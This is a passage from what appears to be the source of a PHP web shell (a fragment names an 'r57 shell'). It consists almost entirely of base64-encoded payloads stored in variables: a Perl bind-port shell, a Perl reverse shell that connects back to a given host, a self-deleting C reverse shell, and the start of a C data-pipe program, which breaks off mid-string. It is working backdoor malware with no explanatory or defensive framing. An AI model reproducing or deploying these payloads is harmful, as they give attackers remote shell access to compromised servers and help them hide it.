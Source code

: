7DQogICByZWFkKG5ld2ZkLGJ1ZixzaXplb2YoYnVmKSk7DQogICBpZiAoIWNocGFzcyhhcmd2WzJdLGJ1ZikpDQogICBzeXN0ZW0oImVjaG8gd2VsY2
9tZSB0byByNTcgc2hlbGwgJiYgL2Jpbi9iYXNoIC1pIik7DQogICBlbHNlDQogICBmcHJpbnRmKHN0ZGVyciwiU29ycnkiKTsNCiAgIGNsb3NlKG5ld
2ZkKTsNCiAgfQ0KIH0NCn0NCmludCBjaHBhc3MoY2hhciAqYmFzZSwgY2hhciAqZW50ZXJlZCkgew0KaW50IGk7DQpmb3IoaT0wO2k8c3RybGVuKGVu
dGVyZWQpO2krKykgDQp7DQppZihlbnRlcmVkW2ldID09ICdcbicpDQplbnRlcmVkW2ldID0gJ1wwJzsgDQppZihlbnRlcmVkW2ldID09ICdccicpDQp
lbnRlcmVkW2ldID0gJ1wwJzsNCn0NCmlmICghc3RyY21wKGJhc2UsZW50ZXJlZCkpDQpyZXR1cm4gMDsNCn0=";
$port_bind_bd_pl="IyEvdXNyL2Jpbi9wZXJsDQokU0hFTEw9Ii9iaW4vYmFzaCAtaSI7DQppZiAoQEFSR1YgPCAxKSB7IGV4aXQoMSk7IH0NCiRMS
VNURU5fUE9SVD0kQVJHVlswXTsNCnVzZSBTb2NrZXQ7DQokcHJvdG9jb2w9Z2V0cHJvdG9ieW5hbWUoJ3RjcCcpOw0Kc29ja2V0KFMsJlBGX0lORVQs
JlNPQ0tfU1RSRUFNLCRwcm90b2NvbCkgfHwgZGllICJDYW50IGNyZWF0ZSBzb2NrZXRcbiI7DQpzZXRzb2Nrb3B0KFMsU09MX1NPQ0tFVCxTT19SRVV
TRUFERFIsMSk7DQpiaW5kKFMsc29ja2FkZHJfaW4oJExJU1RFTl9QT1JULElOQUREUl9BTlkpKSB8fCBkaWUgIkNhbnQgb3BlbiBwb3J0XG4iOw0KbG
lzdGVuKFMsMykgfHwgZGllICJDYW50IGxpc3RlbiBwb3J0XG4iOw0Kd2hpbGUoMSkNCnsNCmFjY2VwdChDT05OLFMpOw0KaWYoISgkcGlkPWZvcmspK
Q0Kew0KZGllICJDYW5ub3QgZm9yayIgaWYgKCFkZWZpbmVkICRwaWQpOw0Kb3BlbiBTVERJTiwiPCZDT05OIjsNCm9wZW4gU1RET1VULCI+JkNPTk4i
Ow0Kb3BlbiBTVERFUlIsIj4mQ09OTiI7DQpleGVjICRTSEVMTCB8fCBkaWUgcHJpbnQgQ09OTiAiQ2FudCBleGVjdXRlICRTSEVMTFxuIjsNCmNsb3N
lIENPTk47DQpleGl0IDA7DQp9DQp9";
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj
aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR
hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT
sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI
kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi
KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl
OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
$back_connect_c="I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCmludC
BtYWluKGludCBhcmdjLCBjaGFyICphcmd2W10pDQp7DQogaW50IGZkOw0KIHN0cnVjdCBzb2NrYWRkcl9pbiBzaW47DQogY2hhciBybXNbMjFdPSJyb
SAtZiAiOyANCiBkYWVtb24oMSwwKTsNCiBzaW4uc2luX2ZhbWlseSA9IEFGX0lORVQ7DQogc2luLnNpbl9wb3J0ID0gaHRvbnMoYXRvaShhcmd2WzJd
KSk7DQogc2luLnNpbl9hZGRyLnNfYWRkciA9IGluZXRfYWRkcihhcmd2WzFdKTsgDQogYnplcm8oYXJndlsxXSxzdHJsZW4oYXJndlsxXSkrMStzdHJ
sZW4oYXJndlsyXSkpOyANCiBmZCA9IHNvY2tldChBRl9JTkVULCBTT0NLX1NUUkVBTSwgSVBQUk9UT19UQ1ApIDsgDQogaWYgKChjb25uZWN0KGZkLC
Aoc3RydWN0IHNvY2thZGRyICopICZzaW4sIHNpemVvZihzdHJ1Y3Qgc29ja2FkZHIpKSk8MCkgew0KICAgcGVycm9yKCJbLV0gY29ubmVjdCgpIik7D
QogICBleGl0KDApOw0KIH0NCiBzdHJjYXQocm1zLCBhcmd2WzBdKTsNCiBzeXN0ZW0ocm1zKTsgIA0KIGR1cDIoZmQsIDApOw0KIGR1cDIoZmQsIDEp
Ow0KIGR1cDIoZmQsIDIpOw0KIGV4ZWNsKCIvYmluL3NoIiwic2ggLWkiLCBOVUxMKTsNCiBjbG9zZShmZCk7IA0KfQ==";
$datapipe_c="I2luY2x1ZGUgPHN5cy90eXBlcy5oPg0KI2luY2x1ZGUgPHN5cy9zb2NrZXQuaD4NCiNpbmNsdWRlIDxzeXMvd2FpdC5oPg0KI2luY2
x1ZGUgPG5ldGluZXQvaW4uaD4NCiNpbmNsdWRlIDxzdGRpby5oPg0KI2luY2x1ZGUgPHN0ZGxpYi5oPg0KI2luY2x1ZGUgPGVycm5vLmg+DQojaW5jb
HVkZSA8dW5pc3RkLmg+DQojaW5jbHVkZSA8bmV0ZGIuaD4NCiNpbmNsdWRlIDxsaW51eC90aW1lLmg+DQojaWZkZWYgU1RSRVJST1INCmV4dGVybiBj
aGFyICpzeXNfZXJybGlzdFtdOw0KZXh0ZXJuIGludCBzeXNfbmVycjsNCmNoYXIgKnVuZGVmID0gIlVuZGVmaW5lZCBlcnJvciI7DQpjaGFyICpzdHJ
lcnJvcihlcnJvcikgIA0KaW50IGVycm9yOyAgDQp7IA0KaWYgKGVycm9yID4gc3lzX25lcnIpDQpyZXR1cm4gdW5kZWY7DQpyZXR1cm4gc3lzX2Vycm
xpc3RbZXJyb3JdOw0KfQ0KI2VuZGlmDQoNCm1haW4oYXJnYywgYXJndikgIA0KICBpbnQgYXJnYzsgIA0KICBjaGFyICoqYXJndjsgIA0KeyANCiAga